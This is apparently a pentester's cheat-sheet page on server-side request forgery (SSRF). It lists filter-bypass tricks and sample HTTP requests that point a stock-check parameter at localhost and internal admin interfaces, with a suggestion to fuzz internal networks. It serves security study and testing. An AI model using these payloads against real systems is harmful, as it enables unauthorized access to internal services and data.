 # SSRF

{% code overflow="wrap" fullWidth="true" %}
```bash
https://portswigger.net/web-security/ssrf
https://pentestbook.six2dez.com/enumeration/web/ssrf
https://github.com/tarunkant/Gopherus
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

# Bypass
Double-URL encode the blacklisted stuff
http://SuB.DoMain.CoM
http://sub.domain.com
http://SUB.DOMAIN.COM
ftp://user:password@host:port/
# Tricky way to bypass filters
Point to a file we host and include on that file the basic headers that the server expects:
HTTP/1.1 STATUS_CODE MESSAGE
Location: $WHAT_WE_WANT_TO_ACCESS_OR_DISCLOSE
```
{% endcode %}

## What is SSRF?

Server-side request forgery is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location (internal-only services, arbitrary external systems...). This could leak sensitive data.

## What is the impact of SSRF attacks?

In some situations, even RCE.

## Common SSRF attacks

{% code overflow="wrap" fullWidth="true" %}
```sh
######### SSRF attacks against the server
127.0.0.1
localhost
# Example of shop showing stock by quering an API
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
# Exploitation
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin


########## SSRF attacks against other back-end systems
These systems often have non-routable private IP addresses.
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://192.168.0.68/admin
EXAMPLE: Fuzz/enum internal network 192.168.0.X to find 192.168.0.X/admin interface
```
{% endcode %}